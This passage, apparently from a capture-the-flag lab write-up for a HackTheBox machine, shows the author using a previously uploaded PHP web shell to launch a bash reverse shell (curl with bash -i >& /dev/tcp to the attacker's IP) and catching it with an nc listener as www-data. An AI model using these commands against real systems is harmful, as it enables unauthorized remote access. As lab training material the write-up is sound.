 ![image*](/img/image-20221128143303095.png)

It works:

![](/img/image-20221128143246146.png)

### Shell

I'll put a simple [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in as the command
and submit it:



    oxdf@hacky$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' http://portal.carpediem.htb/uploads/1669663920_0xdf.php



At a listening `nc`, there's a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.167 46920
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@3c371615b7aa:/var/www.md/portal/uploads$ 
